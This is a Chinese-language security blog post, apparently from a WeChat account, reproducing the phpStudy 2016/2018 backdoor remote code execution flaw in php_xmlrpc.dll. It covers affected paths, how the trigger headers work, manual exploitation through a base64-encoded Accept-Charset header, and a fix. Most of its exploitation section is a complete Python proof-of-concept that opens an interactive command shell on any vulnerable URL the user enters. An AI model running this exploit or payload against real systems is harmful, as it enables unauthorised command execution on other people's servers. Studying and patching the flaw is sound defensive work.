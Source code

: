 #  phpstudy_2016-2018_rce 漏洞复现   
Sword  网络安全学习爱好者   2024-11-16 10:41  
  
# 漏洞描述  
  
攻击者可以利用该漏洞执行PHP 命令，也可以称作 phpStudy 后门 。RCE(Remote Command|Code Execute)  
  
Phpstudy软件是国内的一款免费的PHP调试环境的程序集成包，通过集成Apache、PHP、MySQL、phpMyAdmin等多款软件一次性安装，无需配置即可直接安装使用，一键搭建。  
**其中2016、2018版本的phpstudy存在被黑客恶意篡改后形成的RCE漏洞**  
。该漏洞可以直接远程执行系统命令。  
# 影响版本  
  
 phpStudy 2016和2018两个版本  
  
后门代码存在于\ext\php_xmlrpc.dll模块中  
- phpStudy2016 查看  
  
- \phpStudy\php\php-5.2.17\ext\php_xmlrpc.dll  
  
- \phpStudy\php\php-5.4.45\ext\php_xmlrpc.dll  
  
- phpStudy2018查看  
  
- \phpStudy\PHPTutorial\php\php-5.4.45\ext\php_xmlrpc.dll  
  
- \phpStudy\PHPTutorial\PHP\PHP-5.2.17\ext\php_xmlrpc.dll  
  
# 漏洞分析  
  
**网上某位大佬的**  
  
通过 IDA分析xmlrpc.dll发现，被植入危险函数eval()。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ZAPxzic90CGBb636ckQ1MC08nniczShXsWbJ9urmgmhONqp2M8MJicLAmSGuiaarggseoSWur0IkR5fgLQ4xh4pb1Q/640?wx_fmt=png&from=appmsg "")  
  
xmlrpc.dll中的初始化函数request_startup_func被篡改:当发起HTTP请求的数据包中包含“Accept-Encoding”字段时，就会进入黑客自定义的攻击流程。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ZAPxzic90CGBb636ckQ1MC08nniczShXsW6oVH5C2Bg2DncDXTI69eNwuUsUNgeygWxiax9ibncX6wPD1UAKrQfRyg/640?wx_fmt=png&from=appmsg "")  
  
当Accept-Encoding字段的信息为“compress,gzip”时，触发系统收集功能。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ZAPxzic90CGBb636ckQ1MC08nniczShXsWL7JNEI6bnJheRcPdJ8pt8bBpSxTXN3QibZDYCOibgS9tDWIM7ehlc12w/640?wx_fmt=png&from=appmsg "")  
  
当Accept-Encoding字段的信息为“gzip,deflate”时，再进一步判断Accept-Charset字段，只有当Accept-Charset字段为一些特定字符时才会触发漏洞。  
# 漏洞复现  
## 环境搭建  
  
安装phpstudy2016或者phpstudy2018，  
**需要把PHP版本换成5.2.17或5.4.45版本**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ZAPxzic90CGBb636ckQ1MC08nniczShXsW0icoBCfSpErFqnPibBiaZNDcSLGPWg7cb9fZL9qcn99Lqribew0rpNI5fQ/640?wx_fmt=png&from=appmsg "")  
### 查看是否漏洞验证  
- phpStudy2016查看  
  
- \phpStudy\php\php-5.2.17\ext\php_xmlrpc.dll  
  
- \phpStudy\php\php-5.4.45\ext\php_xmlrpc.dll  
  
- phpStudy2018查看  
  
- \phpStudy\PHPTutorial\php\php-5.4.45\ext\php_xmlrpc.dll  
  
- \phpStudy\PHPTutorial\PHP\PHP-5.2.17\ext\php_xmlrpc.dll  
  
打开你phpstudy对应的文件查找@eval，文件存在@eval(%s(‘%s’))证明漏洞存在  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ZAPxzic90CGBb636ckQ1MC08nniczShXsWdPAXxCicvcQLlrc5K8yScGwVoJNTUazexfwZ7WT24pZVAQIKGVbq3Zg/640?wx_fmt=png&from=appmsg "")  
## 漏洞利用  
### code1：手工利用  
  
使用burp抓包  
  
添加请求头  
Accept-Charset  
值是想要执行的php代码  
system('whoami');  
代码需要进行base64编码  
```
Accept-Charset: c3lzdGVtKCd3aG9hbWknKTs=
```  
  
需要将  
Accept-Encoding: gzip, deflate  
修改为  
Accept-Encoding: gzip,deflate  
就是把中间的空格删掉  
**（具体原因可以看上面大佬的漏洞分析）**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ZAPxzic90CGBb636ckQ1MC08nniczShXsWrmX4X5xlTSWc5OXia0pXPuKA8cBZxZFayT1q4QXdKGDvgVChKrQGYnw/640?wx_fmt=png&from=appmsg "")  
  
重放请求包  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ZAPxzic90CGBb636ckQ1MC08nniczShXsWGcrpibMTz1C2UxDoqib20CoicshibJlicBeVwx5eLfxSCDR3h0cntnK9Vrw/640?wx_fmt=png&from=appmsg "")  
### code2：POC脚本  
  
**来源于GitHub**  
```
# phpStudy_2016-2018_RCE_POC.py
import requests
import base64
import string
import random
from time import sleep
#向目标提交请求，漏洞触发。
def rce(url,cmd):
    cmd = base64.b64encode("system('{}');".format(cmd).encode()).decode()
    headers = {
            'Accept-Charset': cmd,#请求头中提交参数，触发漏洞。
            'Accept-Encoding':'gzip,deflate',#请求头中提交参数，触发漏洞。
            'User-Agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36 OPR/73.0.3856.284'
    } #浏览器指纹
    res = requests.get(url = url ,headers=headers)
    print(res.status_code)
    if res.status_code == 200:        #判断是否能与目标正常通信
        bof = 0
        eof = res.content.index(b"<!DOCTYPE html")  #将回复内容转化为二进制字符
        k = (res.content[bof:eof].decode("gbk"))
        return k
    else:
        exit("error url!")
# 生成随机数与目标返回的字符对比，判断目标是否在线。
def judge():
    j = ''
    for i in range(18):
        j +=random.choice(string.digits + string.ascii_letters)
    return j
#初始化
def main(url):
    flag1 = judge()
    cmd = "echo " + flag1
    flag2 = rce(url, cmd)
    if  flag1 in flag2 :
       print("[+] Target is enable!")
       while True:
            cmd = input("[*] cmd >")
            if cmd == "q" or cmd == "":
                break
            print(rce(url, cmd))
    else:
        print("[+] Target is not  enable! exit 3s later")
        sleep(3)
        exit()

if __name__ == "__main__":
    url = input("Enter an url ：")
    print("[+] Testing url:{}".format(url))
    print('-----------------')
    main(url)
```  
  
****```
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ZAPxzic90CGBb636ckQ1MC08nniczShXsWhwzrKCAibPA8vsjBaPOe9Sm1Nu6Af9fl4KR0DkP1qmVibaBdleQGUIWw/640?wx_fmt=png&from=appmsg "")  
# 修复建议  
  
下载：phpxmlrpc.rar 解压 复制文件  
- php\php-5.2.17\ext\php_xmlrpc.dll  
  
- php\php-5.4.45\ext\php_xmlrpc.dll  
  
覆盖原路径文件即可。  
## 复现环境所需安装包以及工具公众回复phpstudy16+18获取  
  
